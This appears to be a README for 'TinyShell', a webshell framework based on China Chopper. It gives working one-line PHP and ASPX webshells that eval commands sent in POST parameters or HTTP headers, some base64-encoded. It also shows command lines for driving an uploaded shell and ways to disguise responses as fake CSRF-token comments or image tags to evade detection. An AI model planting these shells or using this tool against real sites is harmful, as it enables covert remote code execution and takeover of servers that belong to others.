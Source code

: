 # TinyShell

## New idea based on 

 - SubShell webshell framework (https://bitbucket.org/jvest/subshell)
 - China Chopper Webshell (https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html)

## Major Changes

 - All functions passed as code to be evaluated on server
 - Reduces server side code to potentially 1 line
 - new 'shell' code can be added to any page on a site

## Encoding Header Examples

### Fake CSRF Token hidden in comment

```python
rsp_header = '<!-- csrf_token='
rsp_footer = ' -->'
```

### Base64 IMG tag

```python
rsp_header = '<img src="data:image/gif base64'
rsp_footer = '"/>'
```

### Commandline Examples

#### Clear text POST parameter (password) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php

#### Base64 Encoded POST Parameter (viewstate) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=viewstate --mode=base64_post

#### Base64 Encoded HTTP HEADER (PESSSION) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=psession --mode=base64_header

## Server side examples (webshell)

# Clear Text POST parameter

```php
<?php @eval($_POST['password']);?>
```

 ```aspx
 <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>

 ```

# Base64 Encoded POST parameter

```php
<?php @eval(base64_decode($_POST['password']));?>
```

 ```aspx
 <%@ Page Language="Jscript"%><%eval(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["password"])),"unsafe");%>

 ```

# Base64 Encoded HEADER parameter

```php
<?php @eval(base64_decode($_SERVER['HTTP_PSESSION']));?>

```

```aspx
 <%@ Page Language="Jscript"%><%eval(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Headers["password"])),"unsafe");%>
```

